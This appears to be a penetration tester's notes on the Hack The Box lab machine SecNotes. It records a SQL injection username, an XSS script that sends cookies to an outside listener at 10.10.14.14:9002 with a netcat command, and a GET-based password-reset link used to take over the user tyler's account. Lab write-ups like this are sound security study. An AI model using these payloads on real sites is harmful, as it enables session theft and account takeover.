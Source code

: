# Port 80
---
![[Pasted image 20250413163947.png]]
- Tried common credentials, but didn't work
- Registered with following creds:
	- `anshul : anshul`
- **Contact Us Page**:
	- Possible user: `tyler : tyler@secnotes.htb`
	- ![[Pasted image 20250413164214.png]]
- Since this message is sent to `tyler`, **we can try to grab tyler's admin cookie using XSS**

- ==**Note: We also had SQL Injection in Register.**==
	- Make user with name `' OR 1=1 -- -` and login with same username to see all the data.
# XSS
---
- On create notes, page, **tried simple HTML injection to verify XSS** and worked:
	- ![[Pasted image 20250413164435.png]]
- Grabbing the cookie:
	- Send this message
		- `<script>window.location="http://10.10.14.14:9002/?cookie=" + document.cookie</script>`
	- Listen on 9002 port:
		- `nc -lnvp 9002`
	 ![[Pasted image 20250413164628.png]]
- This does not work, there is no connection received from tyler.


# Sending Reset Password link to `tyler`
---
- We can send `Reset Password`request with both **POST and GET methods** . **Password resets for both the cases.**
- ==This app **does not even ask for current password**, **which should ring a bell.**==
	- ![[Pasted image 20250414135751.png]]
	- ![[Pasted image 20250414135824.png]]
	- Let's see if `tyler`clicks on links
		- In message: `http:/10.10.14.19:9002`
		- ![[Pasted image 20250414140001.png]]
		- But this is some weird powershell browser, meaning **XSS cookie steal probably won't work here.**
	- Send the **password reset link as it even works for GET requests**
		- Copy the `GET` request from burp after `Right Click on POST request -> Change Request type`
	- `http://10.10.10.97/change_pass.php?password=tyler123&confirm_password=tyler123&submit=submit`![[Pasted image 20250414140321.png]]
	- Now try logging in as `tyler : tyler123`
	- ![[Pasted image 20250414140425.png]]